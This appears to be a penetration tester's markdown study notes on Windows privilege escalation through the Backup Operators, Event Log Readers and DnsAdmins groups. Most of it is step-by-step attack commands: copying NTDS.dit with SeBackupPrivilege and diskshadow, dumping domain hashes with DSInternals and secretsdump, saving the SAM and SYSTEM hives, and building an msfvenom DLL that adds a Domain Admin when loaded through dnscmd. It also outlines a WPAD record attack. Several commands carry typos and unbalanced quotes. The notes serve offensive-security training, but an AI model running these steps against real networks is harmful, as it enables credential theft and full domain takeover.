 Backup Operators 
	[SeBackup Privilege]([https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges))
		Allows to traverse any folder and list contents and copy a file from a folder even with no ACE. 
		Need to copy the data specifying the [FILE_FLAG_BACKUP_SEMANTICS](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)
			Exploiting privilege 
			https://github.com/giuliano108/SeBackupPrivilege
			Import the Libraries:
				`Import-Module .\SeBackupPrivilegeUtils.dll`
				`Import-Module .\SeBackupPrivilegeCmdLets.dll`
			Turn on the privileges 
				`whoami /priv`
				`Get-SeBackupPrivilige`
				`Set-SeBackupPrivilege`
			Copy a protected file 
				`Copy-FileSeBackupPrivilege '<path to file>' .\<filename>.txt`
			Read the file
			Use [diskshadow](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) to attack a domain controller with NTDS.dit
				Contains all the NTLM hashes for all users in the domain.
				Use diskshadow utility to create a copy of the C drive and expose it in the E drive
				`diskshadow.exe`
				`set verbose on`
				`set metadata`
				`set context clientaccesible`
				`set contect persistent`
				`begin backup`
				`add volume C: alias cdrive`
				`create`
				`expose %cdrive%` E:
				`end backup`
				`exit`
				`dir E:`	`
			Bypass the ACL and copy the NTDS locally
				`Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit`
			Extract credentials from NTDS.dit
				`Import-Module .\DSInternals.psd1`
				`$key = Get-BootKey -SystemHivePath .\SYSTEM'
				`Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key`
				Using SecretsDump.py
					`secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL'
				CopyFiles with Robocopy
					`robocopy /B E:\Windows\NTDS .\ntds ntds.dit`
		Backup the SAM and SYSTEM registry hives.
			`reg save HKLM\SYSTEM SYSTEM.SAV`
			`reg save HKLM\SAM SAM.SAV`
[Event Log Readers](<https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)?redirectedfrom=MSDN#event-log-readers>)
	Confirm group membership 
		`net localgroup "Event Log Readers"`
	Query windows events using [wevutil (CMD)](<Windows/PrivEsc/Windows Group Privileges.md>) Or [Get-WinEvent(PS)](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.diagnostics/get-winevent?view=powershell-7.3&viewFallbackFrom=powershell-7.1)
		Search for security Logs. 
			CMD
				`wevtutil qe Security /rd:true /f:text | Select-String "/user"
			Powershell
				`Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}`
		Pass Credentials to wevutil 
			`wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
DNS Admins
	DNS service runs as "NT AUTHORITY/ SYSTEM"
	Use [DNSCMD](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd)to run an [exploit](https://adsecurity.org/?p=4064)
		Explanation
			DNS management is performed over RPC 
			[ServerLevelPluginDLL](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows custom DLL with no verification to be loaded in with [dnscmd](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) tool from CLI.	`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` populates a registry key.
			When the DNS service is restarted the DLL path will be loaded. Custom DLL can obtain a reverse shell. 
			Very destructive action.
		Running the exploit:
			Generate malicious DLL:
				`msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll'
			Transfer file across to target 
			Load DLL as Non-Privileged User:
				Only DnsAdmins can do this.
				`dnscmd.exe /config /serverlevelplugindll <path to dll>
			Load DLL as member of DnsAdmins:
				`Get-ADGroupMember -Identity DnsAdmins`
			Load Custom DLL:
				` dnscmd.exe /config /serverlevelplugindll <path to dll>
				(Must specify full path)
			Find Users SID
				`wmic useraccount where name="netadm" get sid`
			Check permissions on DNS service
				`sc.exe sdshow DNS`
					[Understand the output](https://itconnect.uw.edu/tools-services-support/it-systems-infrastructure/msinf/other-help/understanding-sddl-syntax/)
			Stop the DNS service
				`sc stop dns
			Start the DNS service
				`sc start dns`
			Confirm account has been added to the Domain Admins
				`net group "Domain Admins" /dom`
			Check DNS
				`sc query` 
		Cleaning up:
			Confirm registry key is added 
				`reg query \\<ip>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters`
			Delete Registry key 
				`reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll`
			Start the DNS service again
				`sc.exe start dns`
			Check the DNS 
				`sc query dns`
		[Exploit](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) using [Mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib)
			Modify this [file](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) to execute a reverse shell one-liner 
		Exploit using a WPAD Record 
			Allows disabling of [global query block security](https://learn.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps)
			Running the exploit
				Disable the global query block list
					`Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local`
				Add a WDAP record 
					`Add-DnsServerResourceRecordA -Name wpad -ZoneName <domain name>.local -ComputerName dc01.<domain name>.local -IPv4Address <ip>`
					
				
			